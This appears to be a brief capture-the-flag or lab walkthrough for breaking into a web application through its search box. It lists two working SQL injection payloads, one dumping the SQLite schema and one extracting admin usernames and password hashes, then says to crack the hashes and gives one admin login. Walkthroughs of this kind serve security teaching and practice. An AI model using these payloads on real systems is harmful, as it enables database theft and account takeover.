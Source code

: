 1. Register and login to a normal account
2. Search for `blahaj' UNION SELECT type, name, sql FROM sqlite_master WHERE type = 'table'; --` to find all tables and their schemas in the database
3. Search for `blahaj' UNION SELECT is_admin, username, password FROM PRIV_USERS WHERE is_admin = 1; --` to find the username and passwords of admin users
4. Identify that the stored passwords are hashes, and crack them somehow
5. Login with any admin account using the cracked passwords. One admin account is `Cisco:test101`